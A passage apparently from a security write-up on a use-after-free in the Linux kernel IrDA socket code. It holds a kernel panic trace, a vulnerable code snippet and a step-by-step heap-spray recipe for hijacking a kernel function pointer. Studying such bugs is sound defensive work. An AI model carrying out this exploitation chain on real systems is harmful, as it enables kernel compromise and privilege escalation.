 ```assembly
[ 8.642882] Call Trace:
[ 8.642882] ? proc_sys_make_inode+0xc1/0x100
[ 8.642882] proc_sys_lookup+0xcf/0x140
[ 8.642882] lookup_slow+0x91/0x140
[ 8.642882] walk_component+0x195/0x320
[ 8.642882] ? security_inode_permission+0x3c/0x60
[ 8.642882] link_path_walk+0x18b/0x5c0
[ 8.642882] ? path_init+0x1d4/0x330
[ 8.642882] path_openat+0xe3/0x1320
[ 8.642882] do_filp_open+0x79/0xd0
[ 8.642882] ? do_nanosleep+0x92/0xf0
[ 8.642882] ? kmem_cache_alloc+0x2f/0x150
[ 8.642882] ? getname_flags+0x51/0x1f0
[ 8.642882] do_sys_open+0x116/0x1f0
[ 8.642882] SyS_openat+0xf/0x20
[ 8.642882] entry_SYSCALL_64_fastpath+0x13/0x94
[ 8.642882] RIP: 0033:0x44769e
[ 8.642882] RSP: 002b:00007ffc4d7f1b00 EFLAGS: 00000246 ORIG_RAX: 0000000000000101
[ 8.642882] RAX: ffffffffffffffda RBX: 00000000006d18d8 RCX: 000000000044769e
[ 8.642882] RDX: 0000000000000000 RSI: 00000000004a8a46 RDI: ffffffffffffff9c
[ 8.642882] RBP: 0000000000000070 R08: 0000000000000001 R09: 000000000000000c
[ 8.642882] R10: 0000000000000000 R11: 0000000000000246 R12: 00000000006d1880
[ 8.642882] R13: 0000000000000065 R14: 00000000006d18d8 R15: 0000000000000000
[ 8.642882] Code: cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc cc 00 00 00 00 00 00 00 00 <68> 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
[ 8.642882] RIP: 0xffff88023623ad20 RSP: ffffc90001437b60
[ 8.642882] CR2: ffff88023623ad20
[ 8.642882] ---[ end trace 531b1224dce05ac9 ]---
[ 8.642882] Kernel panic - not syncing: Fatal exception
[ 8.642882] Kernel Offset: disabled
[ 8.642882] Rebooting in 1 seconds..
```

In order to completely control the execution, we must look for an object holds a pointer to a function pointers, which can be achieved by information leak.
The first “bug” (double bind and losing the reference to ias_obj) is not required to exploit UAF (reinsertion on the same object into the hashbin queue). It has no relevance to the exploitation chain demonstrated in the PoC and UAF can be exploited without it.
Binding the same socket would result in the following path taken (since self->tsap is already set):

```c
err = irda_open_tsap(self, addr->sir_lsap_sel, addr->sir_name);
if (err < 0) {
 irias_delete_object(self->ias_obj);
 self->ias_obj = NULL;
 goto out;
}
```
In the PoC, binding socket 1 twice would simply leave the first allocated object in the queue and set self->ias_obj (for socket 1) to NULL.
The exploitation procedure detailed before in this post is different from the actual PoC:
* Create 4 socket files via socket()
* bind socket 1 to 3 , this will allocate and insert objects into irias_objects
* bind 1 again , this will trigger the first bug
* insert socket 2 & 3 many times (~5)
* close socket 2, then 3 , this will free sockets and you should see the ias object of socket 3 freed but still queued in the list [!]
* Spray the heap to fill the freed object with our payload, now we have control over obj->q.q_(next/prev)
* bind socket 4 , this is ‘what’ pointer to put in the controlled object (obj->q.q_prev)
* close socket 4 to free the last object
* Spray the heap again to control the object
* Trigger the overwritten pointer , and you’ll get RIP<br>
